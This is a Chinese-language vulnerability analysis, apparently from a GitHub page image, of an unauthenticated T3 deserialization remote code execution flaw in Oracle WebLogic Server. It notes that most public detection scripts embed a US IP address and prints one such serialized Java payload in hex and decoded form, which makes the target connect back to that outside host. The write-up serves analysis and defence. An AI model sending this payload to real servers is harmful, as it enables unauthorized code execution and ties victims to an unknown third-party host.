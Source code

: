 ## 漏洞简介

通过该漏洞，攻击者可以在未授权的情况下远程执行代码。攻击者只需要发送精心构造的T3协议数据，就可以获取目标服务器的权限。攻击者可利用该漏洞控制组件，影响数据的可用性、保密性和完整性。

## 漏洞影响范围

OracleWebLogicServer10.3.6.0  

OracleWebLogicServer12.1.3.0  

OracleWebLogicServer12.2.1.2  

OracleWebLogicServer12.2.1.3

## 漏洞分析

目前github上已经出现不少用于检测此漏洞的验证代码，但是绝大多数代码中PAYLOAD字段都包含一个归属为美国的IP地址104.251.228.50，如下所示：

```
In [2]: PAYLOAD=['aced0005737d00000001001d6a6176612e726d692e61637469766174696f6e2e416374697661746f72
   ...: 787200176a6176612e6c616e672e7265666c6563742e50726f7879e127da20cc1043cb0200014c0001687400254c
   ...: 6a6176612f6c616e672f7265666c6563742f496e766f636174696f6e48616e646c65723b78707372002d6a617661
   ...: 2e726d692e7365727665722e52656d6f74654f626a656374496e766f636174696f6e48616e646c65720000000000
   ...: 0000020200007872001c6a6176612e726d692e7365727665722e52656d6f74654f626a656374d361b4910c61331e
   ...: 03000078707737000a556e6963617374526566000e3130342e3235312e3232382e353000001b590000000001eea9
   ...: 0b00000000000000000000000000000078']

In [3]: PAYLOAD[0].decode('hex')
Out[3]: "\xac\xed\x00\x05s}\x00\x00\x00\x01\x00\x1djava.rmi.activation.Activatorxr\x00\x17java.lang.reflect.Proxy\xe1'\xda \xcc\x10C\xcb\x02\x00\x01L\x00\x01ht\x00%Ljava/lang/reflect/InvocationHandler;xpsr\x00-java.rmi.server.RemoteObjectInvocationHandler\x00\x00\x00\x00\x00\x00\x00\x02\x02\x00\x00xr\x00\x1cjava.rmi.server.RemoteObject\xd3a\xb4\x91\x0ca3\x1e\x03\x00\x00xpw7\x00\nUnicastRef\x00\x0e104.251.228.50\x00\x00\x1bY\x00\x00\x00\x00\x01\xee\xa9\x0b\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00x"
```